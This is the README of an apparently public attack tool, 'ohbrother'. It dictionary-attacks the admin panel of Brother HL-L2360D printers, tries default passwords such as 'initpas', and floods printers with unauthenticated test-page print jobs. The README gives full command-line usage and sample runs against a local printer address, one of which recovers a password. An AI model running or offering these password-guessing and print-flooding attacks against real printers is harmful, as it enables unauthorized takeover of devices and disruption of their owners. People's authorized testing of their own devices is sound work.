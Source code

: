 # ohbrother
Brother Printer Admin Panel Dictionary attack tool (Designed for the HL-L2360D series)
```
usage: ohbrother.py [-h] --ip-address IP_ADDRESS [--port PORT] [--wordlist WORDLIST]

Brother Printer Admin Panel Dictionary attack (Designed for the HL-L2360D series)

options:
  -h, --help            show this help message and exit
  --ip-address IP_ADDRESS, -i IP_ADDRESS
                        IP Address of the printer
  --port PORT, -p PORT  Port the admin interface is running on (default: 80)
  --dictionary-attack DICTIONARY_ATTACK, -D DICTIONARY_ATTACK
                        IP Address of the printer
  --print-spam, -S      continuously print test pages (unauthenticated)
  --wordlist WORDLIST, -W WORDLIST
                        Wordlist to use to attack the printer (default:
                        /usr/share/wordlists/rockyou.txt)
```

# Usage

## Dictionary Attack
Dictionary attack using the default wordlist
```
┌──(kali㉿kali)-[~]
└─$ python3 ohbrother.py --ip-address 192.168.0.77
[00:15:05] {/home/kali/ohbrother.py:60} INFO - [*] Starting a dictionary attack on http://192.168.0.77:80/general/status.html
[00:16:19] {/home/kali/ohbrother.py:66} INFO - [*] found correct password: shadow
```
Ohbrother checks for common default brother passwords

```
C:\Users\DrewQ\Desktop\Brother>python main.py --wordlist "C:\Users\DrewQ\Downloads\passwords.txt" --ip-address 192.168.0.77
[23:14:00] {C:\Users\DrewQ\Desktop\Brother\main.py:49} INFO - [*] default password was set: initpas
```

## Print Spam
```
C:\Users\DrewQ\Desktop\Brother>python ohbrother.py --print-spam --ip-address 192.168.0.77
[23:41:13] INFO - [*] queued a test page
[23:41:16] INFO - [*] queued a test page
[23:41:19] INFO - [*] queued a test page
```
